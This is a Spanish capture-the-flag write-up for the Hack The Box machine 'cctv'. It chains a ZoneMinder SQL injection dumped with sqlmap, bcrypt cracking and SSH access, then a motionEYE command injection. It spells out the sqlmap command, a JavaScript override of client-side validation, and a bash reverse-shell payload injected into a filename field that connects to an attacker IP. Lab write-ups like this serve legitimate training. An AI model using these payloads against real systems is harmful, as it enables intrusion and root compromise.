


Resumen de Explotación
La máquina expone un panel de login de ZoneMinder en el puerto 80. Tras acceder
con las credenciales por defecto admin:admin, identificamos la versión
1.37.63 y explotamos una inyección SQL basada en tiempo
(GHSA-qm8h-3xvf-m7j3)
en el parámetro tid, volcando la tabla de usuarios con sqlmap.
El hash del usuario mark se crackea con éxito, revelando la contraseña
opensesame, que sirve para acceder por SSH.
Una vez dentro como mark, inspeccionamos servicios internos y encontramos un panel
de motionEYE 0.43.1b4 en el puerto 8765, cuyas credenciales de
administración están en texto claro en /etc/motioneye/motion.conf. Esta versión de
motionEYE es vulnerable a RCE sin sanitización del campo de nombre de archivo
(GHSA-j945-qm58-4gjx).
Saltando la validación del frontend con un override de JavaScript, inyectamos una reverse shell
en el parámetro vulnerable y recibimos una shell directamente como root.
Tecnologías/Exploits: ZoneMinder SQLi autenticada basada en tiempo (GHSA-qm8h-3xvf-m7j3), crackeo de hash bcrypt, motionEYE RCE por inyección en campo de configuración sin sanitizar (GHSA-j945-qm58-4gjx).
Reconocimiento inicial
Comienzo con un escaneo de nmap para identificar puertos abiertos y servicios en la máquina objetivo:
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.58
|_http-title: Did not follow redirect to http://cctv.htb/
Service Info: Host: default; OS: Linux; CPE: cpe:/o:linux:linux_kernelEl escaneo revela SSH en el puerto 22 y un servidor web Apache en el puerto 80 que redirige a
cctv.htb. Añado el dominio al /etc/hosts y navego a la web.
Enumeración web — ZoneMinder
La página principal es una web sin mucho interés, pero hay un botón de Staff login en la
parte superior derecha que lleva al panel de login de ZoneMinder en
http://cctv.htb/zm/. ZoneMinder es un software open source de videovigilancia.
En el panel de login no se muestra la versión directamente, pero visitando
http://cctv.htb/zm/api/ obtengo una página de error 404 de CakePHP que sí la
expone: CakePHP 2.10.24. Revisando el historial de releases de ZoneMinder,
esta versión de CakePHP se introdujo en la
versión 1.34.24,
por lo que sé que la instalación tiene como mínimo esa versión.
Pruebo algunos CVEs conocidos para versiones sin autenticar, pero ninguno funciona. Entonces pruebo
las credenciales por defecto admin:admin y accedo sin problemas. Una vez dentro,
el panel de administración confirma la versión exacta: ZoneMinder 1.37.63.
Investigación de vulnerabilidades — SQLi autenticada en ZoneMinder
Con la sesión activa, busco exploits aplicables a esta versión autenticada. Pruebo primero un CVE de RCE por inyección de comandos (GHSA-mjp3-8hg2-3f95), pero al visitar la URL vulnerable me redirige — parece protegido de alguna manera.
Sin embargo, encuentro una inyección SQL autenticada que sí funciona:
GHSA-qm8h-3xvf-m7j3.
El parámetro tid en la siguiente URL es vulnerable:
http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1Añadir una comilla simple (') al valor del parámetro provoca un error 500, confirmando
la inyección. Aunque el advisory menciona una SQLi booleana, en la práctica la
time-based es la que da resultados con sqlmap. Lanzo el volcado
pasando la cookie de sesión activa:
sqlmap -u "http://cctv.htb/zm/index.php?view=request&request=event&action=removetag&tid=1*" \
-D zm -T Users -C Username,Password \
--dump --batch --dbms=mysql \
-H "Cookie: ZMSESSID=2uj56p7fnjdap9r3q1sl3a8jpd" \
--threads=10El volcado tarda un rato (es time-based), pero finalmente obtengo dos usuarios de la tabla
Users:
Database: zm
Table: Users
[2 entries]
+------------+--------------------------------------------------------------+
| Username | Password |
+------------+--------------------------------------------------------------+
| superadmin | $2y$10$cmytVWFRnt1XfqsItsJRVe/ApxWxcIFQcURnm5N.rhlULwM0jrtbm |
| mark | $2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. |
+------------+--------------------------------------------------------------+Crackeo de hashes y acceso SSH
Intento crackear ambos hashes bcrypt. El hash de superadmin no cae, pero el de
mark sí:
$2y$10$prZGnazejKcuTv5bKNexXOgLyQaok0hq07LW7AJ/QNqZolbXKfFG. : opensesameCon estas credenciales accedo por SSH como mark sin problemas y recupero la flag de
usuario.
Enumeración interna como mark
En el directorio /home veo otro usuario: sa_mark. Pruebo reutilizar
la contraseña opensesame pero no funciona.
Inspeccionando la máquina encuentro un archivo de log llamativo:
mark@cctv:~$ cat /opt/video/backups/server.logAuthorization as sa_mark successful. Command issued: disk-info. Outcome: success.
Authorization as sa_mark successful. Command issued: disk-info. Outcome: success.Hay algún proceso automatizado que se autentica como sa_mark y ejecuta comandos
periódicamente. Esto es un indicio de que existe algún servicio interno que acepta comandos.
Reviso los puertos en escucha:
mark@cctv:~$ ss -tulnNetid State Recv-Q Send-Q Local Address:Port
tcp LISTEN 0 4096 127.0.0.1:9081
tcp LISTEN 0 4096 127.0.0.1:8888
tcp LISTEN 0 128 127.0.0.1:8765
tcp LISTEN 0 70 127.0.0.1:33060
tcp LISTEN 0 4096 127.0.0.1:8554
tcp LISTEN 0 4096 0.0.0.0:22
tcp LISTEN 0 4096 127.0.0.1:1935
tcp LISTEN 0 4096 127.0.0.1:7999
tcp LISTEN 0 151 127.0.0.1:3306
tcp LISTEN 0 511 *:80Hay varios servicios internos. En el puerto 8765 encuentro una aplicación web. Al
explorarla, identifico que se trata de motionEYE. Las credenciales de acceso las
encuentro en texto claro en su fichero de configuración:
mark@cctv:~$ cat /etc/motioneye/motion.conf# @admin_username admin
# @normal_username user
# @admin_password 989c5a8ee87a0e9521ec81a79187d162109282f0Con esas credenciales accedo al panel de administración de motionEYE, donde el propio panel expone la versión instalada:
motionEye Version: 0.43.1b4Escalada de privilegios — RCE en motionEYE
Para la versión 0.43.1b4 de motionEYE existe un CVE de ejecución remota de código: GHSA-j945-qm58-4gjx. La vulnerabilidad reside en que el campo de nombre de archivo en la configuración de grabación no se sanitiza correctamente más allá de una validación en el frontend, por lo que se pueden inyectar subcomandos de shell directamente en ese campo.
En el panel encuentro ya una cámara registrada, así que pruebo la PoC del advisory directamente en sus ajustes:

Como es de esperar, al intentar guardar el frontend lanza un error de validación:

Pero esta validación únicamente existe en el lado del cliente. La puedo saltarme abriendo la consola de JavaScript del navegador y sobreescribiendo la función de validación:
configUiValid = function() { return true; };Con ese override activo, aplico los cambios sin problemas. Para verificar que tenemos ejecución como root, uso la PoC original del advisory (crear un archivo de prueba) y compruebo el resultado en el sistema:
-rw-r--r-- 1 root root 0 Mar 8 15:00 testEl archivo se ha creado como root. Esto confirma que el proceso de motionEYE se
ejecuta con privilegios de root y que tenemos inyección de comandos plena. Sustituyo el payload
de prueba por una reverse shell:
$(bash -c "bash -i >& /dev/tcp/10.10.16.137/443 0>&1").%Y-%m-%d-%H-%M-%STras aplicar los cambios con el override de JavaScript activo, a los pocos segundos recibo la conexión en mi listener:
nc -lvnp 443listening on [any] 443 ...
connect to [10.10.16.137] from (UNKNOWN) [10.10.11.X] XXXXX
bash: cannot set terminal process group: Inappropriate ioctl for device
bash: no job control in this shell
root@cctv:/# id
uid=0(root) gid=0(root) groups=0(root)Tengo shell directamente como root y puedo recuperar las flags de usuario y de
sistema.